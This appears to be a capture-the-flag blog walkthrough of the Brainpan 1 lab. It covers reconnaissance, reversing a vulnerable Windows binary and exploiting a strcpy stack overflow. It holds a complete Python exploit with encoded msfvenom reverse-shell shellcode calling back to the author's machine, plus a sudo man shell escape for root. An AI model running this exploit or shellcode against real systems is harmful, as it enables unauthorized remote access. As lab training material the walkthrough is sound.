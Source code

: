 ```yaml
---

title: "Brainpan 1"  
date: "2025-4-15"  
thumbnail: "/assets/img/thumbnail/Brainpan1.png"

---
```


# Brainpan 1
---
**Challenges Difficulty: Hard**  
**Category: Revers**

## Walkthrough 

---
Stating with nmap to scan the machine we found a service called abyss on port 9999 a web server running on port 10000
![image.png](/assets/img/posts/Brainpan1/image%2012.png)
Opening it returns a page that has nothing interested 
![image.png](/assets/img/posts/Brainpan1/image%2013.png)
let's use dirb to discover directories 

![image.png](/assets/img/posts/Brainpan1/image%2014.png)
opening /bin we found an .exe file called Brainpan.exe lets try to download it

![image.png](/assets/img/posts/Brainpan1/image%2015.png)
let's reverse this file using Ghidra  

![image.png](/assets/img/posts/Brainpan1/image%2016.png)
so this is the one running on port 9999

![image.png](/assets/img/posts/Brainpan1/image%2017.png)
and this program takes one input from the user and returns **ACCESS DENIED** or **ACCESS GRANTED**
![image.png](/assets/img/posts/Brainpan1/image%2018.png)
Friendly advice don't waste yore time to get the correct password as its actually just a printed string
but as i have wasted my time :) so any string that starts with **s** will return **ACCESS GRANTED**
![alt text](/assets/img/posts/Brainpan1/access.png)
actually this is the vulnerable part of the code as strcpy does not check bounds. so If input is longer than 520 bytes, it will overflow local_20c
![image.png](/assets/img/posts/Brainpan1/image%2021.png)
now we want to run this exe inside a debugger to cause a BO and get the address that would be in the eip to start our exploit i will use Immunity Debugger to do so
![image.png](/assets/img/posts/Brainpan1/image%2019.png)
created a pattern using msf-pattern_create to find the exact offset
![image.png](/assets/img/posts/Brainpan1/image%2020.png)

After a looooooooooong time i realized that ncat has a max buffer size of 511 🙂 

let’s use python

```python
import socket

# Target details
TARGET_IP = "127.0.0.1"
TARGET_PORT = 9999

# Payload (1000 'A' characters)
payload = "A" * 1000  

# Create a TCP socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
    # Connect to the target
    s.connect((TARGET_IP, TARGET_PORT))
    print("[+] Connected to the target")

    # Receive banner (if any)
    response = s.recv(1024)
    print("[+] Received:", response.decode(errors="ignore"))

    # Send the payload
    s.sendall(payload.encode())
    print("[+] Sent 1000 bytes")

    # Receive response (if any)
    response = s.recv(1024)
    print("[+] Server response:", response.decode(errors="ignore"))

except Exception as e:
    print("[!] Connection failed:", str(e))

finally:
    s.close()
    print("[+] Connection closed")

```

and finaly it’s a crash

![image.png](/assets/img/posts/Brainpan1/image%2022.png)

![image.png](/assets/img/posts/Brainpan1/image%2023.png)

![image.png](/assets/img/posts/Brainpan1/image%2024.png)
As we successful caused a BO we will use mona script inside Immunity Debugger to find a jmp esp instruction address  

![image.png](/assets/img/posts/Brainpan1/image%2025.png)
created a reverse shell using msfvenom to connect to my local ip throw port 4444 and modified the script

```python
import socket
import struct
# Target details
TARGET_IP = "127.0.0.1"
TARGET_PORT = 9999

# Payload (1000 'A' characters)
offset = b"A"*524 
eip= b'\xf3\x12\x17\x31'       #311712F3  
buf =  b""
buf += b"\xd9\xc1\xba\x43\xbc\xeb\x48\xd9\x74\x24\xf4\x5d"
buf += b"\x31\xc9\xb1\x52\x31\x55\x17\x03\x55\x17\x83\x86"
buf += b"\xb8\x09\xbd\xf4\x29\x4f\x3e\x04\xaa\x30\xb6\xe1"
buf += b"\x9b\x70\xac\x62\x8b\x40\xa6\x26\x20\x2a\xea\xd2"
buf += b"\xb3\x5e\x23\xd5\x74\xd4\x15\xd8\x85\x45\x65\x7b"
buf += b"\x06\x94\xba\x5b\x37\x57\xcf\x9a\x70\x8a\x22\xce"
buf += b"\x29\xc0\x91\xfe\x5e\x9c\x29\x75\x2c\x30\x2a\x6a"
buf += b"\xe5\x33\x1b\x3d\x7d\x6a\xbb\xbc\x52\x06\xf2\xa6"
buf += b"\xb7\x23\x4c\x5d\x03\xdf\x4f\xb7\x5d\x20\xe3\xf6"
buf += b"\x51\xd3\xfd\x3f\x55\x0c\x88\x49\xa5\xb1\x8b\x8e"
buf += b"\xd7\x6d\x19\x14\x7f\xe5\xb9\xf0\x81\x2a\x5f\x73"
buf += b"\x8d\x87\x2b\xdb\x92\x16\xff\x50\xae\x93\xfe\xb6"
buf += b"\x26\xe7\x24\x12\x62\xb3\x45\x03\xce\x12\x79\x53"
buf += b"\xb1\xcb\xdf\x18\x5c\x1f\x52\x43\x09\xec\x5f\x7b"
buf += b"\xc9\x7a\xd7\x08\xfb\x25\x43\x86\xb7\xae\x4d\x51"
buf += b"\xb7\x84\x2a\xcd\x46\x27\x4b\xc4\x8c\x73\x1b\x7e"
buf += b"\x24\xfc\xf0\x7e\xc9\x29\x56\x2e\x65\x82\x17\x9e"
buf += b"\xc5\x72\xf0\xf4\xc9\xad\xe0\xf7\x03\xc6\x8b\x02"
buf += b"\xc4\x96\x4b\x0c\x15\x01\x4e\x0c\x04\x8d\xc7\xea"
buf += b"\x4c\x3d\x8e\xa5\xf8\xa4\x8b\x3d\x98\x29\x06\x38"
buf += b"\x9a\xa2\xa5\xbd\x55\x43\xc3\xad\x02\xa3\x9e\x8f"
buf += b"\x85\xbc\x34\xa7\x4a\x2e\xd3\x37\x04\x53\x4c\x60"
buf += b"\x41\xa5\x85\xe4\x7f\x9c\x3f\x1a\x82\x78\x07\x9e"
buf += b"\x59\xb9\x86\x1f\x2f\x85\xac\x0f\xe9\x06\xe9\x7b"
buf += b"\xa5\x50\xa7\xd5\x03\x0b\x09\x8f\xdd\xe0\xc3\x47"
buf += b"\x9b\xca\xd3\x11\xa4\x06\xa2\xfd\x15\xff\xf3\x02"
buf += b"\x99\x97\xf3\x7b\xc7\x07\xfb\x56\x43\x27\x1e\x72"
buf += b"\xbe\xc0\x87\x17\x03\x8d\x37\xc2\x40\xa8\xbb\xe6"
buf += b"\x38\x4f\xa3\x83\x3d\x0b\x63\x78\x4c\x04\x06\x7e"
buf += b"\xe3\x25\x03"
nop=b'\x90'*50
eof=b"\xCC"
payload= offset+eip+nop+buf+nop+eof
# Create a TCP socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Connect to the target
s.connect((TARGET_IP, TARGET_PORT))
print("[+] Connected to the target")

# Receive banner (if any)
response = s.recv(1024)

# Send the payload
s.sendall(payload)
print("[+] Sent 1000 bytes")
```

![image.png](/assets/img/posts/Brainpan1/image%2026.png)
and this worked correctly and got a reverse shell now we want to send it to the actual server **remember to recreate the reverse shell with your ip**

![image.png](/assets/img/posts/Brainpan1/image%2027.png)
and we got a shell but it seems that we are inside Sandbox/Evasion Environment 

![image.png](/assets/img/posts/Brainpan1/image%2028.png)

![image.png](/assets/img/posts/Brainpan1/image%2029.png)
now we know that we can run /home/anansi/bin/anansi_util with sudo 
![image.png](/assets/img/posts/Brainpan1/image%2030.png)
this bin gives us 3 commands that we can run
1. network
2. proclist
3. manual 

from [gtfobins](https://gtfobins.github.io/gtfobins/man/#sudo) we know that we can get a shell from man using
```
!/bin/sh
```
![image.png](/assets/img/posts/Brainpan1/bin.png)



